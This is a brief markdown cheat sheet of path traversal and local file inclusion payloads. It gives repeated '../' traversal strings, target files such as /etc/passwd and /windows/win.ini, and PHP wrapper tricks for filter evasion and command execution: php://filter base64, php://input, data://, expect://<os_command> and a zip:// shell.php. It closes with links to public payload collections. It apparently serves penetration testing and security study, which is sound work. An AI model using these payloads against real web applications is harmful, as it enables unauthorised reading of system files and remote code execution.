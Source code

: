 # Path Traversal List

## Directory Traversal Payloads

```
../../../../../../
..//..//..//..//..//
....//....//....//....//....//
```

## Linux LFI Payloads

```
/etc/passwd
```

## Windows LFI Payloads

```
/windows/win.ini
```

## Evasion Filters

```
php://filter/convert.base64-encode/resource=/path/to/file
php://input
data://text//plain;base64,<base64_encoded_payload>
expect://<os_command>
zip://file.jpg%23shell.php
```

## References

- [PayloadsAllTheThings: Directory Traversal](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal)

- [PayloadsAllTheThings: File Inclusion](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md)

- [Seclists: Directory Traversal Payloads](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)

- [0xffsec Handbook File Inclusion and Path Traversal](https://0xffsec.com/handbook/web-applications/file-inclusion-and-path-traversal/)